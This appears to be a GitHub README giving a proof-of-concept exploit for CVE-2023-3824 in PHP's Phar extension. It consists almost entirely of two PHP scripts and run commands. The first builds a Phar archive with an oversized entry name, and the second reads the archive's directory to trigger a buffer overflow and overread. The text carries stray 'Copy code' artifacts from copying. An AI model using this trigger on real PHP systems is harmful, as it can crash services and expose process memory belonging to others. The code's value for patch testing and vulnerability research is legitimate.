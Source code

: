 # PHP Malicious Phar File PoC (CVE-2023-3824)

## Description

This Proof of Concept (PoC) demonstrates how to create a malicious Phar file in PHP and trigger a buffer overflow vulnerability.

## Usage

### Creating the Malicious Phar File

1. Create a new PHP file (e.g., `create_phar.php`) and add the following code:

```php
<?php
$phar = new Phar('malicious.phar');
$phar->startBuffering();
$phar->addFromString(str_repeat('A', PHP_MAXPATHLEN - 1).'B', 'This is the content of the file.');
$phar->stopBuffering();
?>
```
Execute the PHP script to create the malicious Phar file:
Copy code
```php
php create_phar.php
```
Triggering the Buffer Overflow
Create another PHP file (e.g., trigger_overflow.php) and add the following code:
```php
<?php
$handle = opendir("phar://./malicious.phar");
$x = readdir($handle);
closedir($handle);

var_dump($x);
?>
```
Execute the PHP script to trigger the buffer overflow:
Copy code
php trigger_overflow.php
The var_dump($x) statement will output the result of the buffer overflow and overread operation.
